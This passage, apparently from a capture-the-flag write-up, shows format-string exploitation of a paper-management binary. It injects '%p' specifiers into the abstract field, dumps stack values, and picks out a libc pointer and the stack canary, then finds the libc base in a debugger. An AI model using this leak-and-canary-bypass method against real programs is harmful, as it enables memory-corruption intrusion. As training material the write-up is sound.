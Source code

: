 [10]. Quit without saving

> 
{% endhighlight %}

Once done, the option number 9 `Quit` must be chosen and then on the main menu, the option number 4 `View paper info`: {% highlight shell-session %}
Enter index of paper to view: 0
Paper name:
  "%p %p %p %p"
Authors:
  %p %p %p %p
Abstract:
  0x7fff6eaae280 0x7f9e129309e0 0xffffffffffffffff 0x7f9e12f26740
Tags:
  0x7fff6eaae280 0x7f9e129309e0 0xffffffffffffffff 0x7f9e12f26740
URL:
  0x7fff6eaae280 0x7f9e129309e0 0xffffffffffffffff 0x7f9e12f26740
Reviews:
  Reviewer id:
    0
  The review:
    %p %p %p %p

  Reviewer id:
    1
  The review:
    %p %p %p %p

{% endhighlight %}

The fields abstract, tags and URL are vulnerable to string format. Only one of
them is needed. Let's inject some more `%p`s into the abstract field:
{% highlight shell-session %}
Abstract:
	0x7fff6fe31700 0x7f3d1c0df9e0 0xffffffffffffffff 0x7f3d1c6d5740
0x7fff6fe33e41 0x7fff6fe33f70 0x603100 (nil) 0x1bd58f60 0x7fff6fe33e70 0x401901
0x3631383162316331 0x4 0x30 (nil) (nil) (nil) 0x400a10 0x9d8b247c324e4400
0x7fff6fe33e90 0x401987 0x7fff6fe33f78 0x100000000 (nil) 0x7f3d1bd40ec5 (nil)
0x7fff6fe33f78 0x100000000 0x401920 (nil) 0x49dc5c9c182d0ebe 0x400a10
0x7fff6fe33f70 (nil) (nil) 0xb622835a656d0ebe 0xb7a66b3404d70ebe (nil) (nil)
(nil) 0x401990 0x7fff6fe33f78 0x1 (nil) (nil) 0x400a10 0x7fff6fe33f70 (nil)
0x400a39 0x7fff6fe33f68
{% endhighlight %}

We have all what we need:

* libc pointer: `0x7f3d1c0df9e0` is the 2nd leaked value
* canary: `0x9d8b247c324e4400` is the 19th leaked value

These are values stored in the stack frame of the function handling the main
menu, therefore an overflow should be found on the menu.

Let's find the base address of the libc during that run:
{% highlight shell-session %}
gef➤  vmmap
             Start                End             Offset Perm Path
[snip]
0x00007f3d1bd1f000 0x00007f3d1beda000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.19.so
0x00007f3d1beda000 0x00007f3d1c0d9000 0x00000000001bb000 --- /lib/x86_64-linux-gnu/libc-2.19.so
0x00007f3d1c0d9000 0x00007f3d1c0dd000 0x00000000001ba000 r-- /lib/x86_64-linux-gnu/libc-2.19.so
0x00007f3d1c0dd000 0x00007f3d1c0df000 0x00000000001be000 rw- /lib/x86_64-linux-gnu/libc-2.19.so
[snip]
{% endhighlight %}


[perm]: https://docs.python.org/2/library/itertools.html#itertools.permutations